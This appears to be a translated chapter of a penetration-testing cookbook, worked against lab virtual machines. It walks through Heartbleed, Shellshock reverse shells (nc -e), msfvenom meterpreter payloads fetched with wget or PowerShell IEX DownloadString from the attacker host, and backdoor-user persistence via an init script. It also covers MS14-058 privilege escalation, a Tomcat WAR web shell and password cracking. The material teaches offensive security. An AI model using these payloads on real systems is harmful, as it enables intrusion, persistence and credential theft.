


# 第七章：利用平台漏洞

在本章中，我们将涵盖：

+   使用 Exploit-DB 利用 Heartbleed 漏洞

+   利用 Shellshock 执行命令

+   使用 Metasploit 创建和捕获反向 Shell

+   Linux 系统中的权限提升

+   Windows 系统中的权限提升

+   使用 Tomcat Manager 执行代码

+   使用 John the Ripper 通过字典破解密码哈希

+   使用 Hashcat 通过暴力破解密码哈希

# 引言

有时我们会发现服务器存在操作系统中的漏洞、Web 应用使用的库漏洞，或者活跃服务中的漏洞，或者可能还有其他无法通过浏览器或 Web 代理进行利用的安全问题。

如果项目范围允许，并且不会对服务器造成干扰，我们可以尝试利用这些漏洞并获得目标应用程序底层操作系统的访问权限。

在本章中，我们将从已经发现网站服务器或操作系统存在漏洞的地方开始，然后我们将寻找该漏洞的利用方式，并将其针对目标执行，一旦漏洞利用成功，我们将构建路径以获得管理员访问权限，并能够在网络中横向移动。

# 使用 Exploit-DB 利用 Heartbleed 漏洞

Heartbleed 是 2014 年在 OpenSSL 库中发现的一个漏洞。它允许攻击者从服务器读取内存的部分内容；这些部分可能包含客户端与服务器之间的明文通信。一旦 Heartbleed 漏洞被公开，许多公共利用工具相继曝光。Kali Linux 的创始公司 Offensive Security 也托管了 Exploit-DB 网站（[`www.exploit-db.com/`](https://www.exploit-db.com/)），这是一个收集开发者公开发布的漏洞利用工具的网站；我们可以在这里找到多种 Heartbleed 漏洞的利用工具。

在本实例中，我们将使用 Kali Linux 中包含的命令，探索 Kali Linux 中本地的 Exploit-DB 副本，找到我们需要的漏洞利用工具，最终使用它来在目标服务器上利用 Heartbleed 漏洞。

# 准备工作

本实例中，我们将使用 bee-box 易受攻击的虚拟机（[`sourceforge.net/projects/bwapp/files/bee-box/`](https://sourceforge.net/projects/bwapp/files/bee-box/)），因为它使用的 OpenSSL 版本存在一个众所周知的漏洞 Heartbleed（[`heartbleed.com/`](http://heartbleed.com/)），该漏洞影响通过 TLS 协议版本 1.0 和 1.1 进行的加密通信，允许攻击者提取包含未加密信息的服务器内存部分。

# 如何操作...

易受攻击的 bee-box 虚拟机的 IP 地址是`192.168.56.12`，漏洞服务运行在`8443`端口。我们从识别服务器中的漏洞开始：

1.  我们使用`sslscan`来检查 bee-box 上的 TCP 端口`8443`；正如以下截图所示，我们会发现它容易受到 Heartbleed 的攻击：


1.  通过利用 Heartbleed 漏洞，我们将从服务器中提取信息，然后继续在应用程序中进行一些操作，比如登录 bWAPP（`https://192.168.56.12:8443/bwapp/`），确保服务器的内存中有一些数据。

1.  现在，要在 Exploit-DB 的本地副本中查找一个漏洞，打开终端并输入`searchsploit heartbleed`命令。结果如下所示：


1.  我们将选择列表中的第一个漏洞利用。为了检查该漏洞的内容并分析如何使用它以及它的功能，我们可以简单地使用`cat`命令来显示 Python 代码，如下所示：


1.  根据漏洞利用中的说明，我们应该将服务器地址作为第一个参数运行它，然后使用`-p`选项来指示我们要测试的端口。因此，攻击命令应该是`python /usr/share/exploitdb/platforms/multiple/remote/32764.py 192.168.56.12 -p 8443`。下一张截图展示了一个成功攻击的结果，我们成功地获取了一个用户名和密码：


# 它是如何工作的…

Heartbleed 是 OpenSSL TLS 实现中的缓冲区过度读取漏洞；这意味着可以从内存中读取比应该允许的更多数据。通过利用这个漏洞，攻击者可以以明文形式从 OpenSSL 服务器的内存中读取信息，这意味着我们不需要解密或拦截客户端和服务器之间的任何通信。漏洞利用的方式是滥用服务器和客户端之间交换的心跳消息；这些是客户端发送并由服务器响应的短消息，用于保持会话活动。在一个脆弱的实现中，客户端可以声称发送一个大小为 X 的消息，而实际发送的是更小的字节数（*Y*）。服务器将响应*X*字节，从内存中紧邻接收心跳消息存储位置的区域获取差异（*X* - *Y*）。这些内存空间通常包含其他客户端之前发送的请求（已经解密）。

一旦我们确定了一个易受攻击的目标，就可以使用`searchsploit`命令；它是 Kali Linux 上安装的 Exploit-DB 本地副本的接口，搜索漏洞标题和描述中的字符串并显示结果。

一旦我们理解了漏洞利用的工作原理，并确认它是安全的，我们就可以将它用于目标系统并收集结果。在我们的示例中，我们成功地从通过加密通道连接的客户端提取了有效的用户名和密码。

# 还有更多…

在将漏洞利用程序应用到真实系统之前，监控其效果和影响非常重要。通常，Exploit-DB 中的漏洞是可靠的，尽管它们通常需要一些调整才能在特定情况下工作，但也有一些可能并没有按其声明的方式工作；因此，我们需要在实验室中检查源代码并进行测试，然后再在真实的渗透测试中使用它们。

# 另见

除了 Exploit-DB，还有其他一些网站可以帮助我们查找目标系统中的已知漏洞和漏洞利用程序：

+   [`www.securityfocus.com`](http://www.securityfocus.com)

+   [`www.xssed.com/`](http://www.xssed.com/)

+   [`packetstormsecurity.com/`](https://packetstormsecurity.com/)

+   [`seclists.org/fulldisclosure/`](http://seclists.org/fulldisclosure/)

+   [`0day.today/`](http://0day.today/)

# 通过利用 Shellshock 执行命令

Shellshock（也称为 Bashdoor）是一个在 2014 年 9 月发现的 bash shell 漏洞，允许通过存储在环境变量值中的函数执行命令。

Shellshock 对我们这些网络渗透测试人员非常重要，因为开发人员有时会在 PHP 和 CGI 脚本中调用系统命令——尤其是在 CGI 脚本中——如果这些脚本使用了系统环境变量。

在本教程中，我们将利用 bee-box 虚拟机中的 Shellshock 漏洞，在服务器上获得命令执行权限。

# 如何操作...

通过 HTTP 访问 bee-box（`http://192.168.56.12/bWAPP/`）并登录，开始进行本次练习：

1.  在选择你的漏洞：下拉框中，选择 Shellshock 漏洞（CGI），然后点击 Hack：


在文本中，我们看到一个有趣的内容：当前用户：www-data。这可能意味着该页面正在使用系统调用来获取用户名。它还给了我们一个提示，可以攻击 referer。

1.  让我们看看后台发生了什么，并使用 Burp Suite 记录请求并重新加载页面。如果我们查看代理历史记录：


我们可以看到有一个`iframe`调用了一个 shell 脚本：`/cgi-bin/shellshock.sh`，这可能是易受 Shellshock 攻击的脚本。

1.  让我们根据提示，尝试攻击`shellshock.sh`的 referer。我们首先需要配置 Burp Suite 以拦截服务器响应。在代理选项卡中，进入 Options 并勾选基于以下规则拦截响应的框。

1.  现在，设置 Burp Suite 为拦截模式，并重新加载`shellshock.php`。

1.  在 Burp Suite 中，点击 Forward，直到看到`GET`请求指向`/bWAPP/cgi-bin/shellshock.sh`。然后，将`Referer`替换为`() { :;}; echo "Vulnerable:"`，如以下截图所示：


1.  再次点击 Forward，然后再次在请求`.ttf`文件时，我们应该能够得到来自`shellshock.sh`的响应，如下图所示：


响应现在有一个新的头部参数，称为`Vulnerable`。这是因为它将`echo`命令的输出集成到了我们提交的 HTML 头部，现在我们可以进一步执行更多有趣的命令。

1.  现在，尝试执行`() { :;}; echo "Vulnerable:" $(/bin/sh -c "/sbin/ifconfig")`命令。结果显示，命令的输出被包含在响应头中：


1.  在渗透测试中，能够远程执行服务器上的命令是一个巨大的优势，接下来的自然步骤是获取远程 Shell，即建立一个直接连接，在此连接中我们可以发送更复杂的命令。打开 Kali Linux 中的终端，使用以下命令设置一个监听网络端口：`nc -vlp 12345`。

1.  现在，进入 Burp Suite 代理的历史记录，选择任何一个请求`shellshock.sh`，右键点击它，并将其发送到重复器。

1.  一旦进入重复器，更改`Referer`的值为：`() { :;}; echo "Vulnerable:" $(/bin/sh -c "nc -e /bin/bash 192.168.56.10 12345")`。在这种情况下，`192.168.56.10`是我们 Kali 机器的地址。

1.  点击“Go”。如果我们查看终端，可以看到连接已建立；发出一些命令以检查是否已经获得远程 Shell：


# 它是如何工作的...

在前五个步骤中，我们发现存在对 Shell 脚本的调用，由于该脚本应该由 Shell 解释器运行，它可能是 bash 或一个存在漏洞的 bash 版本。

为了验证这一点，我们执行了以下测试：

```
() { :;}; echo "Vulnerable:" 
```

第一部分`() { :;};`是一个空的函数定义，因为 bash 可以将函数存储为环境变量，而这是漏洞的核心，因为解析器会在函数结束后继续解析（并执行）命令。这使我们能够发出第二部分`echo "Vulnerable:"`，该命令简单地返回并回显它收到的输入。

漏洞发生在 Web 服务器中，因为 CGI 实现将请求的所有部分映射到环境变量，因此即使通过 User-Agent 或 Accept-Language 而不是 Referer 进行攻击，这个漏洞也同样有效。一旦我们确认服务器存在漏洞，就可以发出测试命令`ifconfig`，并设置一个反向 Shell。

反向 Shell 是一种具有特定特点的远程 Shell，它由服务器发起，使得客户端监听连接，而不是服务器等待客户端连接，像绑定连接那样。

一旦我们获得了服务器的 Shell，我们需要提升权限并获取渗透测试所需的信息。

# 还有更多...

Shellshock 漏洞影响了全球大量的服务器和设备，且有多种利用方式。例如，Metasploit 框架中包含一个模块，用于设置 DHCP 服务器，将命令注入到连接到它的客户端；这在进行网络渗透测试时非常有用，尤其是当我们有移动设备连接到局域网时（[`www.rapid7.com/db/modules/auxiliary/server/dhclient_bash_env`](https://www.rapid7.com/db/modules/auxiliary/server/dhclient_bash_env)）。

# 使用 Metasploit 创建并捕获反向 Shell

当我们在服务器上获得命令执行权限时，通常是通过一个受限的 Web Shell。接下来，我们需要做的是找到一种方法，将这个受限的 Shell 升级为完全交互式的 Shell，并最终提升为 root/管理员权限。

在这个教程中，我们将学习如何使用 Metasploit 的 `msfvenom` 创建一个可执行程序，触发与我们的攻击机连接并生成一个高级 Shell（meterpreter），以便我们进一步利用服务器。

# 如何做到这一点...

对于这个练习，请确保 Kali 和 bee-box 虚拟机都在运行，然后按照以下步骤操作：

1.  首先，我们使用 `msfvenom` 生成我们的反向 meterpreter Shell，并将其设置为连接回 Kali 主机的 IP 地址。打开 Kali 中的终端并输入以下命令：

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.10 LPORT=4443 -f elf > cute_dolphin.bin
```


这将创建一个名为 `cute_dolphin.bin` 的文件，这是一个反向 Linux meterpreter Shell；反向意味着它将连接回攻击机器，而不是等待我们连接。

1.  接下来，我们需要为即将由我们可爱的海豚创建的连接设置一个监听器。打开一个 `msfconsole` 终端，加载完成后，输入以下命令：

```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost 192.168.56.10
set lport 4443
run
```

如你所见，载荷、`lhost` 和 `lport` 是我们用来创建 `.bin` 文件的。这是程序将要连接的 IP 地址和 TCP 端口，因此我们需要在 Kali Linux 的网络接口上监听该端口。最终的漏洞配置应该如下所示：


1.  现在我们的 Kali 准备好了，是时候准备攻击目标了。以 root 用户启动 Apache 服务并运行以下代码：

```
service apache2 start
```

1.  然后，将恶意文件复制到 Web 服务器文件夹：

```
cp cute_dolphin.bin /var/www/html/
```

1.  接下来，我们开始进行攻击。我们知道 bee-box 存在 Shellshock 漏洞，将利用它让服务器下载恶意文件。使用以下有效载荷在服务器上利用 Shellshock 漏洞：

```
() { :;}; echo "Vulnerable:" $(/bin/sh -c "/usr/bin/wget http://192.168.56.10/cute_dolphin.bin -O /tmp/cute_dolphin.bin;chmod +x /tmp/cute_dolphin.bin; ls -l /tmp/cute_dolphin.bin")
```

载荷的最后两部分用于设置下载文件的执行权限（`chmod +x /tmp/cute_dolphin.bin`）以及确认文件已下载（`ls -l /tmp/cute_dolphin.bin`）。如以下截图所示，成功利用漏洞将返回文件名及其属性：


1.  在服务器中存在文件后，我们再次利用 Shellshock 来执行它：`() { :;}; echo "Vulnerable:" $(/tmp/cute_dolphin.bin")`。

1.  如果一切顺利，我们应该能够在 Metasploit 的监听器中看到一个连接，如下所示：


1.  一旦会话建立，我们可以使用 `help` 命令查看 meterpreter 的功能，并开始在受损服务器上运行命令：


# 它是如何工作的...

`msfvenom` 帮助我们从 Metasploit 广泛的有效载荷列表中创建有效载荷，并将其集成到多种编程语言的源代码中，或者创建脚本和可执行文件，正如我们在本教程中所做的那样。我们在这里使用的参数是：要使用的有效载荷（`linux/x86/meterpreter/reverse_tcp`），回连的主机和端口（`lhost` 和 `lport`），以及输出格式 `(-f elf)`，将标准输出重定向到文件并保存为 `cute_dolphin.bin`。

Metasploit 的 `exploit/multi/handler` 模块是一个有效载荷处理程序。这意味着它并不实际执行任何攻击；它仅仅处理与在受损主机上执行的有效载荷的连接。在这种情况下，我们使用它来监听连接，并在连接建立后，它运行了 meterpreter 有效载荷。

Meterpreter 是 Metasploit 版本的超级 Shell。尽管 Linux 上的 meterpreter 比 Windows 版本更有限，后者包含了嗅探受害者网络和执行权限提升与密码提取的模块，但我们仍然可以将其作为一个支点，访问受害者的本地网络，或者通过使用本地和后期利用的 Metasploit 模块进一步攻击主机。

# Linux 上的权限提升

对于某些渗透测试项目，获取一个 Web Shell 可能在攻击和展示漏洞影响方面已经足够。在其他情况下，我们可能需要进一步提升在该服务器上的权限，或者利用该权限转向网络中的其他主机。

在这第一篇关于权限提升的教程中，我们将借鉴之前的教程，其中我们上传并执行了一个反向 Shell 到攻击机器，并使用 Kali Linux 中的工具在服务器上获取管理员访问权限。

# 准备工作

建议在开始本教程之前先完成前两个教程，*利用 Shellshock 执行命令* 和 *使用 Metasploit 创建并捕获反向 Shell*，尽管从任何受限的 Shell 在远程服务器上也能实现相同的结果。

# 如何操作...

我们在一台受损服务器上运行了一个 meterpreter Shell——更具体地说，是在 IP 为 `192.168.56.12` 的 bee-box 上。我们从找到提升权限的方法开始：

1.  Kali Linux 包含一个名为`unix-privesc-check`的工具；它检查系统中可能允许我们提升权限的配置漏洞。从 meterpreter shell 中，我们可以使用`upload`命令将其上传到服务器。在 meterpreter 会话中，输入`upload /usr/bin/unix-privesc-check /tmp/`命令。

1.  一旦文件上传完成，打开系统 shell（在 meterpreter 中使用`shell`命令），并运行脚本`/tmp/unix-privesc-check standard`。以下截图展示了这一过程：


1.  脚本会显示一长串结果，但我们关注的是在开头显示`WARNING`的那一项。以下截图中，我们可以看到有一个脚本(`/etc/init.d/bwapp_movie_search`)，它在启动时由 root 用户运行，并且任何人都可以写入它（`World write is set`）：


1.  我们将利用这个文件让 root 用户在启动时执行命令。我们会让它创建一个具有管理员权限的用户，这样我们就可以随时通过 SSH 连接到服务器。为了实现这一点，我们需要检查系统中已有的用户组，以便了解哪些具有特权访问权限。在系统 shell 中，运行`cat /etc/group|sort -u`命令。你会看到一些有趣的组名，比如`adm`、`admin`和`root`。

1.  由于我们没有完整的 shell，我们无法打开文本编辑器来将命令添加到目标文件中，因此我们需要通过`echo`命令逐行将它们附加到文件中：

```
echo "/usr/sbin/useradd hacker -m -s /bin/bash -g admin -G root,adm" >> /etc/init.d/bwapp_movie_search

echo "echo hacker:MyPassword | chpasswd" 
>> /etc/init.d/bwapp_movie_search
```

1.  为了验证命令是否正确引入，使用`tail`。它将显示文件的最后几行：`tail /etc/init.d/bwapp_movie_search`。在截图中，我们可以看到它应该是什么样子：


1.  由于该服务器是我们测试实验室的一部分，我们可以直接重启它。在实际场景中，攻击者可能会尝试发动攻击导致服务器重启，或者发动 DoS 攻击迫使管理员重启服务器。

1.  服务器重启后，使用 Kali Linux 中的 ssh 登录到`ssh hacker@192.168.56.12`，然后输入你在*第 5 步*中设置的密码。如果询问是否接受主机证书，输入`yes`并按*Enter*。

1.  如果一切顺利，你将能够登录。以下截图显示该用户拥有对所有命令的 root 访问权限，因为他们属于 admin 组（`sudo -l`），并且可以以 root 用户身份进行身份验证（`sudo su`）：


# 它是如何工作的……

在这个操作步骤中，我们使用了一个现有的 meterpreter shell 将脚本上传到被攻击的服务器。`unix-privesc-check` 是一个 shell 脚本，它会自动查找系统中某些配置、特征和参数，这些配置可能允许一个有限权限的用户访问他们无权访问的资源，例如属于其他用户的文件或以更高权限运行的程序。我们使用标准参数运行了 `unix-privesc-check`，这仅进行了一些基础的测试；也有一个详细选项，它会花费更长时间，但会进行更深入的分析，能为我们提供更多的权限提升选项。

在分析了 `unix-privesc-check` 的结果后，我们决定修改一个在启动时以高权限运行的脚本，并向其中添加了两个命令。第一个是创建一个属于 `admin`、`adm` 和 `root` 组的用户，另一个是为该用户设置密码。为了将这些命令添加到文件中，我们使用了 `echo` 命令和输出重定向操作符（`>`），因为我们受限的 shell 不允许我们打开文本编辑器直接编辑文件。然后我们重启了虚拟机。

在对目标系统进行任何更改之前，请确保这些更改不会中断任何服务，并在进行更改之前备份文件。

当机器重启后，我们通过 SSH 连接到它，使用我们设置的用户进行创建并验证其是否具有 root 权限。最好也将我们添加到 `/etc/init.d/bwapp_movie_search` 脚本中的行删除，以避免触发进一步的警报。

# 另请参见

我们决定使用一个在启动时以 root 权限执行的文件修改作为获得管理员访问权限的方式。虽然有其他选项可能不需要攻击者等待服务器重启，但修改启动脚本可能是保持持续访问的一种方法，特别是当这些修改发生在脚本中的不常被管理员和开发人员查看的模糊函数时。

在尝试提升 Unix 系统权限时，以下是一些常见的方面需要注意：

+   **SUID 位**：当程序或脚本的属性中设置了该位时，该程序将以所有者用户的权限执行，而不是以执行者的权限执行。例如，如果一个可执行文件属于 root 用户（当我们对文件执行 `ls -l` 时显示的第一个名称为所有者），并且由 `www-data` 用户执行，系统会将该程序视为由 root 执行。因此，如果我们发现这样一个文件并成功修改它所打开或使用的文件，我们可能能够获得 root 执行权限。

+   **PATH 和其他环境变量**：当程序调用其他程序或读取系统文件时，它们需要指定其名称和在系统中的位置；有时这些程序只指定名称和相对路径。此外，操作系统在没有指定绝对路径时，具有某些优先级标准——例如，首先在当前文件夹中查找、程序所在位置，或在 PATH 环境变量中指定的路径中查找。这两个条件为攻击者提供了机会，可以在操作系统首先查找的路径中添加一个恶意文件，这个文件与需要的特权程序文件同名，迫使易受攻击的程序处理攻击者的文件内容，而不是合法的文件。

+   **已知漏洞的利用**：在实际的组织中，基于 Unix 的系统通常是最不频繁打补丁和更新的。这使得攻击者和渗透测试人员有机会寻找公开可用的漏洞利用工具，从而利用过时软件中的漏洞。

# Windows 上的权限提升

根据本作者的经验，基于 Windows 的 Web 服务器在商业环境中具有相当大的市场份额，对于内部 Web 应用程序，它们在典型组织中的占比可能超过 60%，再加上微软 SQL Server 在数据库市场的明显主导地位。这意味着作为渗透测试人员，我们必然会遇到这种情况：成功地在 Windows 服务器上执行命令并需要获得管理员访问权限，以进一步利用网络。

在本教程中，我们将从 Windows 服务器上的一个有限 Web shell 开始，使用公开可用的漏洞利用工具获取系统访问权限，达到 Windows 的最高本地权限级别。

# 准备工作

在本教程中，我们假设我们已经在 Windows 2008 R2 服务器上获得了一个有限的 shell（[`github.com/tennc/web-shell/blob/master/fuzzdb-web-shell/asp/cmd.aspx`](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx)）。我们将使用从微软下载中心下载的 Windows 虚拟机，[`www.microsoft.com/en-us/download/details.aspx?id=2227`](https://www.microsoft.com/en-us/download/details.aspx?id=2227)。唯一的变化是添加了 Web 服务器管理员角色，并配置其支持 ASP.Net 应用程序。要启用 ASP.Net，在安装 Web 服务器管理员角色后，打开命令终端并运行`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\aspnet_regiis –i`。

# 如何操作...

因此，我们成功地将我们的 Web shell 上传到了一个 Windows Web 服务器。它位于`http://192.168.56.14/cmd.aspx`。首先要做的是确定 Web 服务器正在运行的权限级别：

1.  浏览到 Web shell（`http://192.168.56.14/cmd.aspx`）并运行`whoami`命令，如下所示：



如你所见，我们的用户是`defaultapppool`，来自`iis apppool`组，这是一个在默认配置下权限非常有限的组。

1.  接下来，我们需要改进发出命令的方法。让我们使用`msfvenom`创建一个反向 meterpreter shell。我们将使用服务器自身的 PowerShell 在内存中执行我们的有效载荷，而不让它接触目标的硬盘，这样就很难被防病毒软件和其他保护软件检测到。为此，我们的有效载荷应该是 PowerShell 脚本格式（`-f psh`），并将其直接保存到 Kali 的 Web 根目录（`-o /var/www/html/cutedolphin.ps1`），如下所示：


1.  一旦创建了有效载荷，确保 Kali 的 Web 服务器正在运行，以便目标可以下载脚本：`service apache2 start`。

1.  现在为 meterpreter 连接创建一个`handler`。在终端中打开`msfconsole`并执行以下命令，根据有效载荷调整参数：

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.56.10
set lport 4443
show options
```

1.  处理程序配置应该像以下截图一样。检查一切是否正确，然后执行处理程序（`run`）；它将打开配置的端口并等待连接：


1.  一旦处理程序运行，我们需要在服务器上执行有效载荷。为此，请进入 Web-shell，将程序设置为`powershell.exe`，参数设置为`-noexit -c iex ((New-Object Net.WebClient).DownloadString('http://192.168.56.10/cutedolphin.ps1'))`，然后点击运行：


1.  如果有效载荷成功执行并接收到连接，我们将看到我们的处理程序启动一个 meterpreter 会话。请注意会话分配的编号，此例中为`1`：


1.  当在 Windows 主机上运行 meterpreter 时，如果配置允许，我们可以使用`getsystem`命令轻松提升为 System。正如以下截图所示，这在此情况下不可行；我们还尝试了转储本地密码哈希，但没有成功。因此，我们获取系统信息，寻找提升权限的方法：


1.  使用`background`命令返回 Metasploit 控制台，并将 meterpreter 会话保持在后台运行。

1.  我们使用`searchsploit`命令，它显示与`2008 R2`匹配的漏洞非常少。只有一个是本地的，意味着它可以在现有会话中执行，如果我们尝试，它将无法工作，因为我们的目标已经打过补丁：


1.  但我们知道在 Exploit-DB 中，Windows 2008 R2 的漏洞不可能只有六个。如截图所示，如果我们使用`grep`（`grep "2008 R2" /usr/share/exploitdb/windows/local/*`）查看漏洞文本，我们会发现更多：


1.  现在我们需要选择一个适合我们配置的漏洞。一种相对高效的方法是使用 `head` 命令查看每个候选漏洞的前几行。例如，在截图中，我们查看漏洞编号为 `40410` 的前 20 行，可以看到它利用了一款名为 `Zortam Mp3 Media Studio` 的软件，而这个软件不太可能安装在我们的目标系统中。所以我们检查另一个漏洞：


1.  我们继续查找，直到找到漏洞编号为 `35101` 的漏洞，它利用了一个 Windows 内部组件，并且已经证明在我们的目标系统上有效。它也是一个 Metasploit 模块，因此我们可以在 `msfconsole` 中找到它，并使用我们现有的 Meterpreter 会话来触发它。接下来的截图展示了一些关键点：


1.  打开 `msfconsole`，搜索 `TrackPopupMenu`，这是漏洞名称的一部分。我们要找的是 2014 年的那个，`windows/local/ms14_058_track_popup_menu`：


1.  如下所示，加载并配置模块：

```
use windows/local/ms14_058_track_popup_menu
set payload windows/x64/meterpreter/reverese_tcp
set lhost 192.168.56.10
set lport 4444
set session 1
```

最终的漏洞配置应该如下所示：


1.  运行漏洞并查看它如何获取新的 Meterpreter 会话：


1.  从这个新会话中，我们可以验证它是否以系统身份运行（`getuid`）。我们可以转储本地用户的密码哈希（`hashdump`），加载像 `mimikatz` 这样的 Meterpreter 模块，这样就能从主机的内存中恢复明文密码（`kerberos`、`wdigest`、`tspkg`），并且可以执行许多其他 Windows 后渗透任务，如下所示：


# 它是如何工作的...

在通过 Web Shell 获得命令执行权限后，我们的第一步是利用这个命令执行能力将一个更高级的 Shell 上传到主机，这样我们就可以尝试权限提升漏洞。

首先，我们使用 `msfvenom` 准备了一个 metasploit 载荷并设置了其处理程序。然后我们使用 PowerShell 和它的 **Invoke-Expression**（**IEX**）命令。这个命令接受一个字符串并将其作为脚本执行；我们传给它的参数是一个存储在我们服务器上的文件内容，这个文件通过 `WebClient` 对象及其 `DownloadString` 函数下载。这种方式可以直接将远程文件的内容传递给 IEX 执行，而不将其存储到磁盘上。这样可以避免大多数杀毒软件的反应，因为它们会对磁盘上的读写事件做出反应，而不是内存中的操作。

在使用高级 shell 后，我们发现快速的权限提升方法没有奏效，然后我们查看了 Exploit-DB，寻找一个本地漏洞以获取系统访问权限。我们找到的漏洞已经是 Metasploit 的一部分，所以我们只需加载它，并利用当前会话来触发它。这就是将第一个会话发送到后台并在漏洞配置中设置会话值的目的。选择一个 `payload` 后，我们设置了接收主机和端口（`lhost` 和 `lport`）来进行反向连接，然后启动了漏洞利用。它成功了，返回了一个新的 meterpreter 会话，这次拥有系统权限。

# 另见

和 Unix 系统一样，pentestmonkey 也有一个小程序来评估 Windows 操作系统的配置，并找出可能的权限提升漏洞。这个程序叫做 `windows-privesc-check.exe`（[`github.com/pentestmonkey/windows-privesc-check/`](https://github.com/pentestmonkey/windows-privesc-check/)）。下一个截图展示了运行它的示例，只显示安全问题（在审核模式或 `--audit` 中），执行最基本的检查集（`-a`），仅显示当前用户可利用的结果（`-c`），并保存输出的三个文件—`.html`、`.txt` 和 `.xml`—带有前缀 `privesc-check`（`-o privesc-check`）：


以下截图显示了结果报告的 HTML 格式：


另一个非常有趣的持久性、权限提升和后期利用的选项是 Empire（[`github.com/EmpireProject/Empire`](https://github.com/EmpireProject/Empire)）。它通过在被攻陷的主机上设置代理，发送信息并执行通过攻击机器上的监听器发送的命令。Empire 包含多个操作系统的模块，用于持久化（即使在重启或重启服务后仍保持对被攻陷主机的访问）、权限提升、侦察、横向移动、数据外泄，甚至恶搞和恶作剧。它不包括在 Kali Linux 的默认安装中，但可以从上述 URL 下载并安装。这是它的主界面：


# 使用 Tomcat 管理器执行代码

在第四章《*测试认证和会话管理*》中，我们获取了 Tomcat 管理器的凭据，并提到这可能导致我们在服务器中执行代码。在本教程中，我们将使用这些凭据登录管理器并上传一个新应用程序，允许我们在服务器内执行操作系统命令。

# 如何做到...

对于这个教程，我们回到我们的 OWASP BWA 机器 `vm_1`，并从已经知道 Tomcat 服务器凭据的地方开始：

1.  访问`http://192.168.56.11:8080/manager/html`，当提示输入用户名和密码时，使用之前获得的用户名和密码——用户名为`root`，密码为`owaspbwa`：


1.  进入管理页面后，寻找 WAR 文件部署的部分，点击浏览按钮。

1.  Kali 中包含了一组 Web Shell，位于`/usr/share/laudanum`。进入该目录，选择`/usr/share/laudanum/jsp/cmd.war`文件：


1.  加载完毕后，点击部署：


1.  验证你是否有一个名为`cmd`的新应用程序，如下所示：


1.  让我们试试，访问`http://192.168.56.11:8080/cmd/cmd.jsp`。

1.  如果一切顺利，你应该能看到一个带有文本框和发送按钮的页面。在文本框中尝试输入命令并发送，例如`ifconfig`：


1.  我们现在可以执行命令，但我们是哪位用户，拥有什么权限呢？尝试使用`whoami`命令：


我们可以看到 Tomcat 在该服务器上以 root 权限运行。这意味着此时我们已经完全控制了它，可以执行任何操作，例如创建或删除用户、安装软件、配置操作系统选项等。

# 工作原理...

一旦我们获得了 Tomcat Manager 的凭证，攻击流程就相当简单。我们只需要一个足够有用的应用程序来上传它。Kali Linux 默认包含的 Laudanum 是一个包含多种语言和类型的 Web Shell 的集合，支持 PHP、ASP、ASP .Net 和 JSP 等。对于渗透测试人员来说，什么比 Web Shell 更有用呢？

Tomcat 有能力接收以 WAR 格式打包的 Java Web 应用程序，并将其部署到服务器上。我们利用这个功能上传了 Laudanum 中包含的 Web Shell，上传并部署后，我们只需访问它，通过执行系统命令，发现我们在该系统中拥有 root 权限，因为服务器配置不当，Tomcat 是以 root 用户身份运行的。

# 使用字典通过 John the Ripper 破解密码哈希

在前面的章节中，我们从数据库中提取了密码哈希值；在渗透测试中，使用哈希字符串是最常见的查找密码的方法。为了发现真实的密码，我们需要对其进行破解，而由于哈希是通过不可逆算法生成的，我们无法直接解密密码。因此，有必要使用像暴力破解和字典攻击这样的较慢方法。

在本教程中，我们将使用 **John the Ripper**（**JTR** 或简称 **John**），最流行的密码破解工具，来恢复从 第六章《*利用注入漏洞*》中的逐步 SQL 注入教程中提取的哈希密码。

# 准备工作

正如本教程标题所示，我们将使用字典，也就是一个单词或可能的密码列表，来破解之前获得的密码哈希。Kali Linux 在 `/usr/share/wordlists/` 目录中包含了多个字典文件。我们在本教程中将使用的是 RockYou，它默认以 GZIP 格式压缩。

要解压 RockYou 字典，我们首先需要进入 `cd /usr/share/wordlists/` 目录，然后使用 `gunzip` 命令解压归档内容：`gunzip rockyou.txt.gz`。下一张截图演示了这个过程：


# 如何操作...

一旦我们有了要破解的哈希列表和字典，接下来可以进行操作：

1.  尽管 John the Ripper 在接收输入方面非常灵活，但为了防止误解，我们首先需要以特定格式设置用户名和密码哈希值。创建一个名为 `hashes_6_7.txt` 的文本文件，每行包含一个用户名和密码哈希，用冒号（`username:hash`）分隔，如下所示：


1.  一旦我们有了文件，可以打开终端并执行 `john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hashes_6_7.txt` 命令：



字典列表中有五个密码已被破解。我们还可以看到 `john` 每秒检查了 2,607,000 次比较（`2,607 KC/s`）。

1.  `john` 还可以应用修改规则，添加前缀或后缀，改变字母的大小写，并在每个密码上使用“leet speak”技术。我们可以尝试对尚未破解的密码执行以下命令：

```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hashes_6_7.txt --rules
```

我们可以看到规则已生效，并且我们找到了最后一个密码：

# 它是如何工作的...

John（以及其他离线密码破解工具）通过将列表中的单词（或它生成的单词）进行哈希并与要破解的哈希进行比较，当有匹配时，它就认为密码已经找到了。

第一个命令使用 `--wordlist` 选项告诉 John 使用哪些单词。如果没有提供，它将生成自己的列表进行暴力破解。`--format` 选项告诉我们用于生成哈希的算法是什么，如果省略该格式，John 会尝试猜测它，通常能取得不错的结果。最后，我们包含了包含哈希的文件。

